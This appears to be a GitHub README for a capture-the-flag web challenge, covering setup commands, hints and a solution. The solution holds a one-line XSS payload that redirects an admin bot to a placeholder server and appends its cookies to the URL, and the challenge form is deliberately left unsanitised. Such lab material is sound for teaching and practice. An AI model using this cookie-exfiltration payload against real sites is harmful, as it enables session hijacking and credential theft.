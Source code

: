 # CTF-cookie-monster
A CTF challenge inspired by a challenge from Google CTF beginners quest.

# Setting up the challenge locally

### Challenge:
```
npm i
node index.js
```

### Server:
```
node server/server.js
```

# Details
this challenge uses [puppeteer](https://pptr.dev/) so it will download a version of chromium.

the server is in it's own folder with a `package.json`, file incase you want
to run the server outside of the challenge folder.

A tool like [ngrok](https://ngrok.com/) will be needed to use the provided server if you decide to host
the challenge outide of the network.

# Hints & solution

<details>
	<summary>Hints</summary>

	* XSS
	* It's not going to run itself
	* The admin needs redirecting
</details>

<details>
	<summary>Solution</summary>

	When the user submits the form, an "admin" will check the page.
	The "admin" has the flag stored as a cookie.
	The form has no sanitisation and is vulnerable to XSS

	The code is a self executing function that redirects the admin to
	the server and appends the admins cookies to the query string.
	The server can then log the cookie containing the flag to the console.

	
	(()=>{location.href="http://server-domain/?flag=" + document.cookie})()
	
</details>
